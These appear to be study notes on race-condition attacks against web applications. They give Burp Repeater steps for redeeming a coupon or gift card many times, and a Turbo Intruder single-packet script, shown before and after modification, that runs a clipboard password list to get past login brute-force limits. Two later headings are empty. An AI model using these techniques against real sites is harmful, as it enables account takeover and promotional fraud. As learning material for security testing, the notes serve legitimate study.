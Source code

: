 # Race Conditions
## 1. Limit Overrun Race Conditions
### (i). Using promo code multiple times or redemming a gift card multiple times
Send the request that is applying coupon code to the repeater.<br>
Add it in a group. Duplicate it 20 times and send it send the requests parallely.
### (ii). Bypassing Bruteforce Protection
Send the login request to repeater and take this into turbo intruder.<br>
Copy all the passwords for which you want to include the request.<br>
In the requestm change password=VALUE to password=%s<br>
Change the script to examples/race-single-packet-attack.py<br>
Copy the passwords so that it can be in the clipboard.
Original Script:
```python
def queueRequests(target, wordlists):

    # if the target supports HTTP/2, use engine=Engine.BURP2 to trigger the single-packet attack
    # if they only support HTTP/1, use Engine.THREADED or Engine.BURP instead
    # for more information, check out https://portswigger.net/research/smashing-the-state-machine
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )

    # the 'gate' argument withholds part of each request until openGate is invoked
    # if you see a negative timestamp, the server responded before the request was complete
    for i in range(20):
        engine.queue(target.req, gate='race1')

    # once every 'race1' tagged request has been queued
    # invoke engine.openGate() to send them in sync
    engine.openGate('race1')


def handleResponse(req, interesting):
    table.add(req)
```
Changed Script:
```python
def queueRequests(target, wordlists):

    # if the target supports HTTP/2, use engine=Engine.BURP2 to trigger the single-packet attack
    # if they only support HTTP/1, use Engine.THREADED or Engine.BURP instead
    # for more information, check out https://portswigger.net/research/smashing-the-state-machine
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )

    # the 'gate' argument withholds part of each request until openGate is invoked
    # if you see a negative timestamp, the server responded before the request was complete
    for word in wordlists.clipboard:
        engine.queue(target.req, word, gate='race1')

    # once every 'race1' tagged request has been queued
    # invoke engine.openGate() to send them in sync
    engine.openGate('race1')


def handleResponse(req, interesting):
    table.add(req)
```
Click on Attack.
### (ii). Rating/Likes multiple times
### (iv). Reusing single captcha multiple times

